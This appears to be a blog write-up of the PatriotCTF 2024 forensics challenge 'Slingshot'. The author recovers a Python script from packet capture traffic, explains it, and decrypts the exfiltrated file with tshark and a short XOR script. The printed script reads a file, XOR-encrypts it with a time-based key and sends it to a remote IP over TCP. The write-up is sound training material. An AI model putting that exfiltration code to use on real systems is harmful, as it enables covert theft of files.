 ```yaml
---
title: 'PATRIOT CTF 2024'
date: 2024-09-22
permalink: /posts/2024/09/patriotctf/
tags:
  - web
  - osint
  - misc
  - forensic
---
```


Introduction
=====
<div style="text-align: center; size: 50px">
  <img src="/images/patriotctf2024/pctf-cert.png" alt="PATRIOTCTF2024" />
</div>
<br>
PatriotCTF is a beginner-friendly capture-the-flag competition hosted by GMU's cybersecurity club, MasonCC. All are welcome to participate, including students and security professionals. Challenges will range from beginner to expert, so there should be something for everyone. This is a jeopardy-style CTF, meaning there will be various challenges from the different categories described below. 


# Forensic
* **Slingshot**
> <span style="color:pink">Author: AJ Hoepfner (greatvaluerice)</span>

    Description:
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/description.png" alt="Challenge" />
    </div>
    <br>
    
    The challenge gives us a `.pcapng` file. Let's analyze it! The first, I check *Protocol Hierarchy Statistics*. 
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/hierarchy.png" alt="hierarchy" />
    </div>
    <br>

    It showed 100% of the packet is TCP, so I filtered HTTP first.
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/http-fil.png" alt="" />
    </div>
    <br>
    
    Then, i export this `.pyc` file and uncompiled it. I got the `.py` with content:
    ```
    import sys
    import socket
    import time
    import math
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    file = sys.argv[1]
    ip = sys.argv[2]
    port = 22993
    with open(file, 'rb') as r:
        data_bytes = r.read()
    current_time = time.time()
    current_time = math.floor(current_time)
    key_bytes = str(current_time).encode('utf-8')
    init_key_len = len(key_bytes)
    data_bytes_len = len(data_bytes)
    temp1 = data_bytes_len // init_key_len
    temp2 = data_bytes_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))
    s.connect((ip, port))
    s.send(encrypt_bytes)
    ```
    The code opens the secret file in binary read mode `('rb')` and reads its contents into a byte string `data_bytes`.

    The current time is obtained using time.time() and converted to an integer using math.floor(). This integer is then converted to a byte string `key_bytes` using the encode() method with the 'utf-8' encoding.
    
    The code calculates the length of the key `init_key_len` and the length of the data `data_bytes_len`. It then calculates the number of times the key needs to be repeated to match the length of the data `temp1` and the remaining bytes `temp2`.

    The key is repeated `temp1` times and then padded with the first `temp2` bytes of the key to match the length of the data. 
    
    Then the code uses a generator expression to perform a byte-wise XOR operation between the key and the data, resulting in an encrypted byte string `encrypt_bytes`. Finally send it to some ip with port `22993`.
    
    Continuously, i filtered the packet with port `22993` and have `data`
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/filter.png" alt="" />
    </div>
    <br>
    
    Nice, i found 3 packets was send. So let's extract all of them by using this command:
    > tshark -r Slingshot.pcapng -Y 'tcp.port ==22993 and data and data.len!=1' -T fields -e data > data.enc
    
    Next step is find timestamp or key. It is the epoch time when the first packet send.
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/time.png" alt="" />
    </div>
    <br>
    
    Nice, i got all things to decrypt the flag. Here is my code:
    ```
    from datetime import datetime
    import math
    
    with open("data.enc") as f:
        total_hex = "".join([line.strip() for line in f.readlines()])
    encrypted_bytes = bytes.fromhex(total_hex)
    
    current_time = 1726595769.063377000
    current_time = math.floor(current_time)
    
    key_bytes = str(current_time).encode('utf-8')
    init_key_len = len(key_bytes)
    data_bytes_len = len(encrypted_bytes)
    temp1 = data_bytes_len // init_key_len
    temp2 = data_bytes_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    
    decrypted_bytes = bytes(a ^ b for a, b in zip(key_bytes, encrypted_bytes))
    image_filename = 'decrypted_image.jpg'
    
    with open(image_filename, 'wb') as f:
        f.write(decrypted_bytes)
    
    print("Done")
    ```
    
    
    Flag:
    <div style="text-align: center;">
        <img src="/_posts/2024-09-23-patriotctf.md" alt="" />
    </div>
    <br>
    
    ### Conslusion:
    + Export the encrypt code
    + Filter to extract data and timestamp
    + Decrypt flag

    # Updating...